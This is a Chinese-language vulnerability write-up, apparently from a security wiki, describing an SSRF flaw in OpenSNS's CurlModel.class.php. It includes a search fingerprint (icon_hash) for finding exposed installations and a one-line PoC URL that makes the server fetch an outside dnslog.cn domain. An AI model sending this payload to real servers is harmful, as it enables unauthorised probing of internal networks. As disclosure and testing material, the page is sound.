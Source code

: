 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

存在漏洞的文件为 **Application/Admin/Model/CurlModel.class.php**

![img](../../../.vuepress/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](../../../.vuepress/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)